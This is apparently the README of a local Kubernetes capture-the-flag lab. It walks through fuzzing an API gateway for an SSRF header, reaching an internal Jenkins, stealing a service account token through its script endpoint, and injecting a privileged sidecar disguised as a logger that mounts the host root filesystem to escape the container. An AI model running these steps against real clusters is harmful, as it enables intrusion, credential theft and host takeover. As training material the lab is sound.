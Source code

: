 # Getting Setup

## Start the cluster
```
kind delete cluster
./setup.sh
```

## Check the deployment status
```
kubectl get pods
```

You can hit the externally facing API gateway hitting `http://localhost:31337/api`.

For example `curl http://localhost:31337/api`.

# Exploit an SSRF flaw in the gateway
*ps there is actually another way to gain access to the jenkins instance. see if you can figure it out*

## Discover the HTTP headers that trigger a different behavior from the gateway

You can do this with pretty much any tool you like, but we're going to use ffuf because it's 1337 and fast. This command will fuzz for headers using a list from seclists. It will match against some interesting response status codes. Additionally, it will save the request-response pairs to the directory `req_res` so that you can examine them for interesting response bodies.

```
ffuf -w /opt/samurai/wordlists/seclists/Discovery/Web-Content/BurpSuite-ParamMiner/lowercase-headers:FUZZ -u http://localhost:31337/api -H "FUZZ: foo" -c -mc 200,403,500,503 -od req_res
```

You can also proxy the traffic from ffuf through BurpSuite if you want using `-x 127.0.0.1:8080`

When we discover a HTTP header that gives us an interesting response such as a 500, we can then fuzz the value of said header.

```
ffuf -w k8s-labs/payloads/wordlist -u http://localhost:31337/api -H "X-Original-Host: http://FUZZ:8080" -c -od req_res
```

For this one we are looking for indications that the backend is trying to resolve the values to IP addresses. So, for example if we get an error message that seems to indicate that it failed to resolve, then we know that value is not a viable SSRF target. However, if a value causes a timeout, or possibly a different error, then we can guess that it might likely be a viable target, for which we would need to then try to guess a port number for.

## Hit the jenkins service through SSRF
```
curl http://localhost:31337 -H "X-Original-Host: http://jenkinssvc:8080"
```

We should see a resonse which is the Jenkins dashboard comeback. Indicating that we were able to hit a internal Jenkins service via the API gateway SSRF.

# Exploit the access to Jenkins
To do this we can use the raw HTTP request which is found in the file `k8s-labs/payloads/jenkinsexploit.http`. This is just a convenience to exploit the `scriptText` endpoint which Jenkins has enabled by default. This particular payload will exfiltrate the Jenkins containers kubernetes secret for us, which we can then use with `kubectl` to further expand our access to the cluster.

You could also use a different Groovy payload here, such as a reverse shell to gain a shell into the Jenkins container, and go from there. Try it out!

## Use the stolen kubernetes service account token to do sidecar injection
This is pretty much the final step. We can check and see what the stolen service account token allows us to do, and the abuse it's capabilities to inject a sneaky sidecar container that allows us to escape to the host node.

Set the token as an env var in your terminal.
```
export JWT="<jwt value here>"
```

Check it's capabilities.
```
kubectl --token=$JWT auth can-i --list
```

Inject a side-car container to the jenkins service which looks like a logging sidecar.

```
kubectl --token=$JWT edit deployment jenkinssvc
```

We want to edit the deployment to look like the deployment spec below.
The regions that are updates are surrouned with the following string

```
# ===================================
```

### Modifed Spec

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  annotations:
    deployment.kubernetes.io/revision: "2"
  creationTimestamp: "2023-11-01T18:33:36Z"
  generation: 2
  labels:
    app: jenkinssvc
  name: jenkinssvc
  namespace: default
  resourceVersion: "12117"
  uid: 58eedc88-93f6-4030-9534-0e9b875abba4
spec:
  progressDeadlineSeconds: 600
  replicas: 1
  revisionHistoryLimit: 10
  selector:
    matchLabels:
      app: jenkinssvc
  strategy:
    rollingUpdate:
      maxSurge: 25%
      maxUnavailable: 25%
    type: RollingUpdate
  template:
    metadata:
      creationTimestamp: null
      labels:
        app: jenkinssvc
    spec:
      containers:
      # ===================================
      - command:
        - sleep
        - infinity
        image: k8s-labs-base:v1
        imagePullPolicy: IfNotPresent
        name: jenkins-logging-sidecar
        resources: {}
        securityContext:
          privileged: true
        terminationMessagePath: /dev/termination-log
        terminationMessagePolicy: File
        volumeMounts:
        - mountPath: /mnt
          mountPropagation: Bidirectional
          name: log-volume
      # ===================================
      - env:
        - name: JAVA_OPTS
          value: -Djenkins.install.runSetupWizard=false
        image: k8s-labs-jenkinssvc:v1
        imagePullPolicy: IfNotPresent
        name: jenkinssvc
        ports:
        - containerPort: 8080
          name: http-port
          protocol: TCP
        - containerPort: 50000
          name: jnlp-port
          protocol: TCP
        resources: {}
        terminationMessagePath: /dev/termination-log
        terminationMessagePolicy: File
        volumeMounts:
        - mountPath: /var/jenkins_home
          name: jenkins-home
      dnsPolicy: ClusterFirst
      restartPolicy: Always
      schedulerName: default-scheduler
      securityContext: {}
      serviceAccount: deploy-manager-sa
      serviceAccountName: deploy-manager-sa
      terminationGracePeriodSeconds: 30
      volumes:
      # ===================================
      - hostPath:
          path: /
          type: ""
        name: log-volume
      # ===================================
      - emptyDir: {}
        name: jenkins-home
status:
  availableReplicas: 1
  conditions:
  - lastTransitionTime: "2023-11-01T18:33:39Z"
    lastUpdateTime: "2023-11-01T18:33:39Z"
    message: Deployment has minimum availability.
    reason: MinimumReplicasAvailable
    status: "True"
    type: Available
  - lastTransitionTime: "2023-11-01T18:33:36Z"
    lastUpdateTime: "2023-11-01T19:12:33Z"
    message: ReplicaSet "jenkinssvc-7ddbf46c7f" has successfully progressed.
    reason: NewReplicaSetAvailable
    status: "True"
    type: Progressing
  observedGeneration: 2
  readyReplicas: 1
  replicas: 1
  updatedReplicas: 1
```

Once that successfully updates we can exec into our new container.

```
kubectl --token=$JWT exec jenkinssvc-<hash_here> -it --container jenkins-logging-sidecar -- /bin/bash
```

Once we have the shell in the sidecar container we can modify the host node filesystem by writing a flag to `/mnt/flag.txt`. 

You can check the file was created on the node filesystem with the following command in another terminal.

```
docker exec kind-control-plane -- ls /flag.txt
```

## That's it!

You are of course free to tinker further, but that demonstrates the ability to compromise the host node using a bidirectional volume mount from within a sidecar container!
